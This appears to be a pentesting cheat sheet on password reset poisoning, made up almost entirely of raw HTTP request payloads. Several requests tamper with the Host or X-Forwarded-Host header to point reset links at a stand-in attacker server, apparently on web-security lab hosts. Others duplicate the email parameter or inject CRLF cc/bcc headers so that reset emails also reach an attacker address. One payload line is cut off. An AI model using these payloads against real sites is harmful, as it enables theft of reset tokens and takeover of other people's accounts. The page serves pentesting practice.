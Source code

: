 ```yaml
---
title: "Password Reset Poisoning"
draft: false
images: []
description: "Pentesting Password Reset"
lead: "Pentesting Password Reset"
menu:
  docs:
    parent: "Wapp"
weight: 100
toc: true
---
```


## Host Header
Modify the host header /forgot-password request to send the request to your own server exploit
```
POST /forgot-password HTTP/1.1
Host: ac2e1f241ee191188094086d00cc0041.web-security-academy.net

#########################################################################

POST /forgot-password HTTP/1.1
Host: exploitserver.com

#########################################################################

POST /forgot-password HTTP/1.1
Host: ac2e1f241ee191188094086d00cc0041.web-security-academy.net
Host: exploitserver.com
```
## X-Forwarded-Host
Notice that the X-Forwarded-Host header is supported and you can use it to point the dynamically generated reset link to an arbitrary domain
```
POST /forgot-password HTTP/1.1
Host: ac1c1fcd1e67ea3480850d2c00150093.web-security-academy.net

##########################################################################

POST /forgot-password HTTP/1.1
Host: ac1c1fcd1e67ea3480850d2c00150093.web-security-academy.net
X-Forwarded-Host: exploitserver.com
```
### Add Non Numeric Port
```
POST /forgot-password HTTP/1.1
Host: acb31fb21f24d280806c1817008f0032.web-security-academy.net

###########################################################################

POST /forgot-password HTTP/1.1
Host: acb31fb21f24d280806c1817008f0032.web-security-academy.net:'<a href="https://exploitserver.net/?
```
## Manipulate Email Parameter
### Add attacker email as second parameter using &
```
POST /resetPassword
[...]
email=victim@email.com&email=attacker@email.com
```
### Add attacker email as second parameter using %20
```
POST /resetPassword
[...]
email=victim@email.com%20email=attacker@email.com
```
### Add attacker email as second parameter using |
```
POST /resetPassword
[...]
email=victim@email.com|email=attacker@email.com
```
### Add attacker email as second parameter using cc
```
POST /resetPassword
[...]
email="victim@mail.tld%0a%0dcc:attacker@mail.tld"
```
### Add attacker email as second parameter using bcc
```
POST /resetPassword
[...]
email="victim@mail.tld%0a%0dbcc:attacker@mail.tld"
```
### Add attacker email as second parameter using ,
```
POST /resetPassword
[...]
email="victim@mail.tld",email="attacker@mail.tld"
```
### Add attacker email as second parameter in json array
```
POST /resetPassword
[...]
{"email":["victim@mail.tld","atracker@mail.tld"]}
```